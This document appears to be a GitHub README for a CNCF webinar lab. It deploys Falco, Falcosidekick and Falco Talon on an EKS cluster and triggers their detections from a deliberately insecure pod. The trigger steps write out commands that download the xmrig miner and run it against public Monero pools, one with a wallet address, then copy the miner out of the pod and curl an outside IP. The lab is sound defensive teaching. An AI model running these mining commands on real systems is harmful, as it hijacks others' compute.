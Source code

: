 # Falcosidekick-Talon-CNCF
CNCF webinar to discuss Falcosidekick and how it integrates with Falco Talon as an output channel.

Set up an ```AWS-CLI Profile``` in order to interact with AWS services via my local workstation
```
aws configure --profile nigel-aws-profile
export AWS_PROFILE=nigel-aws-profile                                            
aws sts get-caller-identity --profile nigel-aws-profile
aws eks update-kubeconfig --region eu-west-1 --name falco-cluster
```

## Create EKS Cluster with Cilium CNI

```
eksctl create cluster --name falco-cluster --without-nodegroup
```

Once ```aws-node``` DaemonSet is deleted, EKS will not try to restore it.
```
kubectl -n kube-system delete daemonset aws-node
```

Setup Helm repository:
```
helm repo add cilium https://helm.cilium.io/
```

Deploy Cilium release via Helm:
```
helm install cilium cilium/cilium --version 1.9.18 \
  --namespace kube-system \
  --set eni=true \
  --set ipam.mode=eni \
  --set egressMasqueradeInterfaces=eth0 \
  --set tunnel=disabled \
  --set nodeinit.enabled=true
```

Create a node group since there are no worker nodes for our pods
```
eksctl create nodegroup --cluster falco-cluster --node-type t3.xlarge --nodes 1 --nodes-min=0 --nodes-max=3 --max-pods-per-node 58
```

```
mkdir falco-response
```

```
cd falco-response
```

Download the ```custom-rules.yaml``` file. <br/>
This enables the originally disabled ```Detect outbound connections to common miner pool ports``` Falco Rule. <br/>
However, I see to be breaking the deployment with the below ```custom-rules.yaml``` file, so I'm leaving it out for now.
```
wget https://raw.githubusercontent.com/nigel-falco/Falcosidekick-Talon-CNCF/main/custom-rules.yaml
```

## Install Falco and Falcosidekick

Docs Page: https://docs.falco-talon.org/docs/installation_usage/falcosidekick/

```
helm install falco falcosecurity/falco --namespace falco \
  --create-namespace \
  --set tty=true \
  --set falcosidekick.enabled=true \
  --set falcosidekick.webui.enabled=true \
  --set falcosidekick.webui.redis.storageEnabled=false \
  --set falcosidekick.config.webhook.address=http://falco-talon:2803 \
  --set "falcoctl.config.artifact.install.refs={falco-rules:2,falco-incubating-rules:2,falco-sandbox-rules:2}" \
  --set "falcoctl.config.artifact.follow.refs={falco-rules:2,falco-incubating-rules:2,falco-sandbox-rules:2}" \
  --set "falco.rules_file={/etc/falco/falco_rules.yaml,/etc/falco/falco-incubating_rules.yaml,/etc/falco/falco-sandbox_rules.yaml,/etc/falco/rules.d}" \
  -f custom-rules.yaml
```

## Install Falco Talon to React to Falcosidekick Outputs

```
git clone https://github.com/Issif/falco-talon.git
```

The Talon rules file ```rules.yaml``` is located in the ```helm``` directory:
```
cd falco-talon/deployment/helm/
```

Before installing, let's enforce the custom response actions for OWASP T10 framework.

```
rm rules.yaml
```

```
wget https://raw.githubusercontent.com/nigel-falco/falco-talon-testing/main/falco-talon/rules.yaml
```

Deploy Talon into the newly created ```falco``` network namespace:
```
helm install falco-talon . -n falco
```

## Create an insecure workload

```
kubectl apply -f https://raw.githubusercontent.com/nigel-falco/falco-talon-testing/main/dodgy-pod.yaml
```
In the second window, run:
```
kubectl get events -n default
```
Back in the first window, run: <br/>
```Rule:``` https://thomas.labarussias.fr/falco-rules-explorer/?hash=1a24c2ccf3a790d0c04e3858f7439ab4
```
kubectl exec -it dodgy-pod -- bash
```
Download the miner from Github
```
curl -OL https://github.com/xmrig/xmrig/releases/download/v6.16.4/xmrig-6.16.4-linux-static-x64.tar.gz
```
Unzip xmrig package:
```
tar -xvf xmrig-6.16.4-linux-static-x64.tar.gz
```
```
cd xmrig-6.16.4
```
```Rule:``` https://thomas.labarussias.fr/falco-rules-explorer/?hash=b22719ac071b8de3c7e0ec92dcab21cb
```
./xmrig -o stratum+tcp://xmr.pool.minergate.com:45700 -u lies@lies.lies -p x -t 2
```
```Rule:``` https://thomas.labarussias.fr/falco-rules-explorer/?hash=3f01c102c6d26af968d5eb6b6777085d
```
./xmrig --donate-level 8 -o xmr-us-east1.nanopool.org:14433 -u 422skia35WvF9mVq9Z9oCMRtoEunYQ5kHPvRqpH1rGCv1BzD5dUY4cD8wiCMp4KQEYLAN1BuawbUEJE99SNrTv9N9gf2TWC --tls --coin monero --background
```


## Testing the Script response action

Copy file from a container and trigger a ```Kubernetes Client Tool Launched in Container``` detection in Falco: <br/>
```Rule:``` https://thomas.labarussias.fr/falco-rules-explorer/?hash=bc5091ab0698e22b68d788e490e8eb66

```
kubectl cp dodgy-pod:xmrig-6.16.4-linux-static-x64.tar.gz ~/desktop/xmrig-6.16.4-linux-static-x64.tar.gz
```


## Enforce Network Policy on Suspicious Traffic

```
kubectl exec -it dodgy-pod -- bash
```

```Rule:``` https://thomas.labarussias.fr/falco-rules-explorer/?hash=0d2e8a0dd3369a030f7acfaab682ad92
```
curl 52.21.188.179
```

Check to confirm the IP address was blocked:
```
kubectl get networkpolicy dodgy-pod -o yaml
```

```
kubectl delete networkpolicy dodgy-pod
```

## Expose the Falcosidekick UI
```
kubectl port-forward svc/falco-falcosidekick-ui -n falco 2802 --insecure-skip-tls-verify
```

Talon can be removed at any time via:
```
helm uninstall falco-talon -n falco
```

Scale down the cluster
```
eksctl get nodegroups --cluster falco-cluster
```
```
eksctl scale nodegroup --cluster falco-cluster --name ng-58324369 --nodes 0
```

Kubecolor
```
alias kubectl="kubecolor"
```

Upgrade of Falco and Falcosidekick
```
helm upgrade falco falcosecurity/falco --namespace falco \
  --create-namespace \
  --set tty=true \
  --set falcosidekick.enabled=true \
  --set falcosidekick.webui.enabled=true \
  --set falcosidekick.webui.redis.storageEnabled=false \
  --set falcosidekick.config.webhook.address=http://falco-talon:2803 \
  --set "falcoctl.config.artifact.install.refs={falco-rules:2,falco-incubating-rules:2,falco-sandbox-rules:2}" \
  --set "falcoctl.config.artifact.follow.refs={falco-rules:2,falco-incubating-rules:2,falco-sandbox-rules:2}" \
  --set "falco.rules_file={/etc/falco/falco_rules.yaml,/etc/falco/falco-incubating_rules.yaml,/etc/falco/falco-sandbox_rules.yaml,/etc/falco/rules.d}" \
  -f custom-rules.yaml
```
